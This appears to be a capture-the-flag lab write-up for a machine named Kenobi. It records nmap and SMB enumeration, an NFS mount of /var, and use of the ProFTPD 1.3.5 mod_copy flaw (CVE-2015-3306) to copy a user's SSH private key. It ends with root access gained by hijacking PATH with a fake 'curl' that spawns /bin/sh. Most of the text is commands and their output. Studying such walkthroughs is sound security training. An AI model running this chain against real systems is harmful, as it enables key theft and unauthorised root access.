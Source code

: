 <pre>
Ran service discovery scan
- $ nmap -Pn -A -sV -Sc -F 10.10.66.72

Scan Results:

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn&apos;t have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)  &lt;&lt;!
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      45831/tcp6  mountd
|   100005  1,2,3      54366/udp   mountd
|   100005  1,2,3      54927/tcp   mountd
|   100005  1,2,3      59568/udp6  mountd
|   100021  1,3,4      33981/tcp   nlockmgr
|   100021  1,3,4      36425/tcp6  nlockmgr
|   100021  1,3,4      49118/udp6  nlockmgr
|   100021  1,3,4      54719/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  &lt;&lt;!
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: &lt;unknown&gt;, NetBIOS MAC: &lt;unknown&gt; (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu) &lt;&lt;!
|   NetBIOS computer name: KENOBI\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-01-14T14:19:57-06:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-14T20:19:57
|_  start_date: N/A


Notable finds:
 - port 111 rpcbind
 - port 445 samba service
 - port 21 proFTPD server version 1.3.5
--------------------------------------------------------------------------------------------------

Enumerating smb shares:

Ran smb enumeration scan with nmap
 ~$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.66.72

Scan Results:
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.66.72\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.66.72\anonymous: <<!
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share <<!
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.66.72\print$:
|     warning: Couldn't get details for share: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|     Anonymous access: <none>
|    Current user access: <none>
|_______________________________________________________________________

Notable finds:
 - user kenobi
 - user anonymous

connecting via smbclient:
 ~$ smbclient //10.10.241.98/anonymous
 - found file log.txt, permission denied
 - downloaded log.txt onto host machine using ~$ smbget -R smb://10.10.241.98/anonymous 
 - log.txt was a proFTPD config file
 - port 21 is default port for proFTPD
--------------------------------------------------------------------------------------------------

Identifying Vulnerabilities:
 - ProFTPD 1.3.5 Server
 - vulnerable to CVE-2015-3306
 - mod_copy_module allows attackers to read/write arbitrary files via (site cpfr and site cpto) commands

Additional Notes:
 mod_copy_module implements SITE CPTO/SITE CPFR commands which is used to copy,
 files/directories from the server without transferring data to the client and back
 --------------------------------------------------------------------------------------------------

Enumerating file system on port 111 with nmap:
 ~$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.241.98
 - found mount /var
--------------------------------------------------------------------------------------------------

Exploiting cve-2015-3306:

Mounting /var/ dir. to host machine
 ~$ sudo mkdir /mnt/kenobiNFS
 ~$ sudo mount 10.10.241.98:/var /mnt/kenobiNFS

Copying kenobi's Private key to mounted /var/ dir.
 ~$ nc 10.10.241.98 21
 ~$ SITE CPFR /home/kenobi/.ssh/id_rsa
 ~$ SITE CPTO /var/tmp/id_rsa
--------------------------------------------------------------------------------------------------

Gaining local Privilege Escalation:

Copy private key from mount to host machine dir. in order to use for priv esc
 ~$ cp /mnt/kenobiNFS/tmp/id_rsa
 ~$ sudo chmod 600 id_rsa (connecting via ssh requires private key file to have strict permissions)
 ~$ ssh -i id_rsa kenobi@10.10.241.98

Gained local priv esc
--------------------------------------------------------------------------------------------------

Gaining Root via Path Manipulation:
- searched for binary files with suid bit permission (execs file as owner)
~$ find / -perm -u=s -type f 2>/dev/null
- found /usr/bin/menu it runs as root w/ no path

Running the binary returns,

********************
1. status check
2. kenrel version
3. ifconfig
** Enter your choice:
*********************

Creating a shell to gain root
 ~$ echo /bin/sh > curl (copies shell to curl)
 ~$ chmod 777 curl
 ~$ export PATH=/tmp:$PATH (Puts the shell in our /tmp path)
 ~$ /usr/bin/menu

 When /usr/bin/menu is run it uses our path to find the 'curl' binary,
 because the menu binary runs as root so does our shell gaining root access.
---------------------------------------------------------------------------------------------------
</pre>
